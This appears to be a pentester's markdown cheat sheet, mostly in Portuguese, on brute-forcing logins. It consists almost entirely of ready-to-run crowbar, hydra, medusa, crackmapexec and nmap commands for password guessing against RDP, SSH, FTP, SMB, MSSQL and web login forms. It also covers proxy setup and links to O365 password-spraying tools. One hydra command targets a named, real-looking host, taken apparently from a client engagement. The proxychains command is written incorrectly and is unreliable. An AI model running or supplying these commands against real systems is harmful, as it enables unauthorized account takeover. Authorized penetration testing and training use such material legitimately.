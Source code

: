 Brute forcing
========================

# crowbar

## RDP
Essa ferramenta que pode realmente executar brute force no RDP das máquinas.
    
    sudo apt install crowbar
    crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1


https://www.hackingarticles.in/4-ways-to-hack-ms-sql-login-password/
# hydra
source:
https://en.kali.tools/?p=220

<https://github.com/frizb/Hydra-Cheatsheet>

Colocar o proxy, mas isso é para HTTP

Use HYDRA_PROXY_HTTP or HYDRA_PROXY environment variables for a proxy setup.
E.g. % export HYDRA_PROXY=socks5://l:p@127.0.0.1:9150 (or: socks4:// connect://)
     % export HYDRA_PROXY=connect_and_socks_proxylist.txt  (up to 64 entries)
     % export HYDRA_PROXY_HTTP=http://login:pass@proxy:8080
     % export HYDRA_PROXY_HTTP=proxylist.txt  (up to 64 entries)

No caso de HTTPS, é interessante utilizar o proxychains:

    sudo cat "http    127.0.0.1    8080" >> /etc/proxychains4.conf
    
    hydra -L owncloud/Area_de_trabalho/Vivo/Delonia_RTPROJ-623/users.txt -P /usr/share/wordlists/rockyou.txt uat.delonia.com https-post-form "/claims/:LOGIN=^USER^&PASSWORD=^PASS^&submit=Login:An error occurred during authentication"


## RDP

    $ hydra -L users.txt -P pass.txt rdp://[target]

## Mssql
    hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt 192.168.1.128 mssql
    
## ssh
    hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1

## ftp
    hydra -l root -P 500-worst-passwords.txt 10.10.10.10 ftp

## smb
    hydra -L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 smb
    #Utilizando o crackmapexec
    crackmapexec smb 10.10.10.130 -u users.txt -p passwords.txt



## http

### get
    hydra -C /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt 10.11.1.209 -s 8080 http-get /manager/html
    
onde -s é a porta
http-get é o método a ser utilizado
/manager/html é o diretório pelo qual estamos tentando nos autenticar
e - C colon separated "login:pass" format, instead of -L/-P options

### post

    hydra -l root@locahost -P /usr/share/wordlist/rockyou.txt 10.11.1.39 http-post-form "/otrs/index.pl:Action=Login&RequestedURL=&Lang=en&TimeOffset=300&User=root@localhost&Password=^PASS^:Login failed!"


# Medusa
    
    
    
## Mssql    
    medusa -h 192.168.1.128 –U /root/Desktop/user.txt –P /root/Desktop/pass.txt –M mssql

## ssh
    medusa -u root -P 500-worst-passwords.txt -h 10.10.10.10 -M ssh

## HTTP
    medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin

## ftp
    medusa -u test -P 500-worst-passwords.txt -h 10.10.10.10 -M ftp

## smb
    medusa -h 192.168.1.118 -U /root/Desktop/user.txt -P /root/Desktop/pass.txt -M smbnt




## Generic

    medusa -h 192.168.1.20 -u admin -P passwords.txt -M [smbnt | ssh | mssql | http]

xHydra
graphical interface


# Supported protocols by tool

Hydra - TELNET, FTP, HTTP, HTTPS, HTTP-PROXY, SMB, SMBNT, MS-SQL, MYSQL, REXEC, irc, RSH, RLOGIN, CVS, SNMP, SMTP, SOCKS5, VNC, POP3, IMAP, NNTP, PCNFS, XMPP, ICQ, SAP/R3, LDAP2, LDAP3, Postgres, Teamspeak, Cisco auth, Cisco enable, AFP, Subversion/SVN, Firebird, LDAP2, Cisco AAA

Medusa -  AFP, CVS, FTP, HTTP, IMAP, MS-SQL, MySQL, NetWare NCP, NNTP, PcAnywhere, POP3, PostgreSQL, REXEC, RLOGIN, RSH, SMBNT, SMTP-AUTH, SMTP-VRFY, SNMP, SSHv2, Subversion (SVN), Telnet, VMware Authentication Daemon (vmauthd), VNC, Generic Wrapper,
Web Form

Ncrack - RDP, SSH, http(s), SMB, pop3(s), VNC, FTP, telnet

# nmap 
nmap -p 1433 –script ms-sql-brute –script-args userdb=/root/Desktop/user.txt,passdb=/root/Desktop/pass.txt 192.168.1.128

|Name|Description|URL|
|-----|-----------|----|
|SprayingToolkit|Scripts to make password spraying attacks against Lync/S4B, OWA & O365 a lot quicker, less painful and more efficient|https://github.com/byt3bl33d3r/SprayingToolkit|
|o365recon|Retrieve information via O365 with a valid cred|https://github.com/nyxgeek/o365recon|